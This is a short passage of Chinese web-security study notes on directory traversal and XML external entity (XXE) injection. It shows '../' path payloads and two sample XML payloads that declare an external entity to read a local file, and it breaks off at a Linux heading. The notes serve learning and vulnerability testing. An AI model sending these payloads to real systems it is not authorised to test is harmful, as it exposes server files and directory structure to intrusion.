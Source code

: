 目录遍历：

和文件包含很类似



`/dir_list.php?title=../`

`/dir_list.php?title=../../`

`/dir_list.php?title=../../../`

有可能会出现文件夹的图案，让人可以知道网站的目录结构





# xxe

XML格式——可以在Apache、Nginx上用——远古的记录问题/信息传递的方式

>XXE漏洞的概念:XXE漏洞全称XML External Entity Injection
>
>php使用xxe时可能产生的漏洞。
>
>即**xml外部实体注入**漏洞，XXE漏洞发生在应用程序解析XML输入时，**没有禁止外部实体的加载**，导致可加载恶意外部文件，造成文件读取、命令执行、内网端口扫描、攻击内网网站、发起dos攻击等危害,xxe漏洞触发的点往往是可以上传xml文件的位置，没有对上传的xml文件进行**过滤**，导致可上传恶意xml文件（**总结起来大致涉及两个点:第一:解析XML输入时没有禁止外部实体加载，第二:没有对XML文件进行过滤，导致可以传非正常文件**）



标准格式测试xxe漏洞：

```xml
</?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE user [
<!ENTITY xxe SYSTEM "file:///D:/a.txt" >]>
<user>
	<username>&xxe;</username>
    <password>b</password>
</user>

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE user [
<!ENTITY xxe SYSTEM "file:///c:/a.txt" >]>
<user>
<username>&xxe;</username>
<password>b</password>
</user>
```



通过抓包修改填写标准格式内容，得到反馈就可以发现有xxe漏洞。





## linux里：
